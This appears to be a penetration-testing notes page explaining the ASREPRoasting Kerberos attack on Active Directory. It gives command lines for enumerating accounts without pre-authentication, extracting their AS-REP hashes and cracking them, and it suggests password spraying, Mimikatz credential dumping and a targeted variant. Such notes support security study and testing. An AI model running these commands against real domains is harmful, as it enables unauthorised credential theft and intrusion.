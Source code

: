 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ASREPRoasting

## Concept

**ASREPRoasting** is an attack on the initial Kerberos authentication step and it is usually performed **after obtaining a list of valid domain users**.&#x20;

**Preauthentication** is a security feature in Kerberos where the client must prove knowledge of their password before the KDC issues a TGT. This is done by encrypting a timestamp with a key derived from the user’s password and sending it to the KDC. If the KDC can decrypt and validate the timestamp, it confirms the user knows their password — protecting against offline brute-force attacks.

If an account has the [`Do not require Kerberos pre-authentication`](https://www.tenable.com/blog/how-to-stop-the-kerberos-pre-authentication-attack-in-active-directory) setting enabled then everyone can request from the DC to authenticate as that account and receive an **AS-REP**. The AS-REP contains the **TGT** which is encypted with the account's password hash which can be potentially cracked.

<figure><img src="../../../.gitbook/assets/asreproasting_process (2).png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Attack <a href="#windows" id="windows"></a>

{% tabs %}
{% tab title="Linux" %}
We can enumerate accounts with the preauthentication feature disabled using `nxc`, `GetNPUsers`, or `kerbrute`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
GetNPUsers.py corp.com/robert

# Kerbrute
kerbrute userenum -d corp.com --dc 172.16.5.5 /opt/jsmith.txt
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using `GetNPUsers` or `nxc`.

{% code overflow="wrap" %}
```bash
# Impacket's GetNPUsers script
impacket-GetNPUsers.py corp.com/ -dc-ip 172.16.5.5 -no-pass -usersfile users.txt
# NetExec
nxc ldap 10.10.10.161 -u users.txt -p '' --asreproast asreproast.lst
```
{% endcode %}

Finally, we can crack the extracted hashes with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
We can enumerate accounts with the preauthentication feature disabled using [PowerView](../../../tools/active-directory/powerview.md).

{% code overflow="wrap" %}
```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```
{% endcode %}

Then we can ASREPRoast the enumerated accounts using [`rubeus`](../../../tools/active-directory/rubeus.md).

```powershell
.\Rubeus.exe asreproast /nowrap /format:hashcat
```

Finally, we can crack the extracted hashes on our attacking machine with `hashcat` or `john`.

{% code overflow="wrap" %}
```bash
# Hashcat
hashcat -m 18200 asreproast.lst /usr/share/wordlists/rockyou
# John
john --format=krb5asrep --wordlist=rockyou.txt --fork=4 asreproast.lst
```
{% endcode %}
{% endtab %}
{% endtabs %}

If we successfully crack the hash, we can perform a [password spraying](../../../tools/active-directory/netexec-cme.md#password-spray) attack across the network using NetExec. If the compromised user has local administrator privileges on any host, we can then extract cached credentials—such as those stored in [LSASS](../../../tools/active-directory/mimikatz.md#pass-the-hash)—using tools like Mimikatz.

> _For an example of ASREPRoasting with `nxc` check_ [_here_](https://x7331.gitbook.io/boxes/boxes/boxes/easy/sauna#asreproasting)_._

## Targeted ASREPRoasting

If we can't find any vulnerable users, but we have `GenericWrite` or `GenericAll` on a user object, we can modify that user's `UserAccountControl` to disable preauthentication and then perform the ASREP roast attack. Don't forget to reset the `UserAccountControl` after extraction!

## Resources

{% tabs %}
{% tab title="Video" %}
{% embed url="https://www.youtube.com/watch?index=4&list=PLDrNMcTNhhYqZj7WZt2GfNhBDqBnhW6AT&v=EVdwnBFtUtQ" %}
{% endtab %}

{% tab title="GetNPUsers" %}
{% embed url="https://www.youtube.com/watch?v=pZSyGRjHNO4" %}
The workings of GetNPUsers script!
{% endembed %}
{% endtab %}

{% tab title="Demo" %}
{% embed url="https://www.youtube.com/watch?v=wA9w8t1fRWo" %}
ASREPRoasting in 10 minutes!
{% endembed %}
{% endtab %}

{% tab title="Article" %}
{% embed url="https://blog.notso.pro/2020-05-07-offops-in-ad-0/" %}
A great article detailing each step of the Kerberos process.
{% endembed %}
{% endtab %}
{% endtabs %}

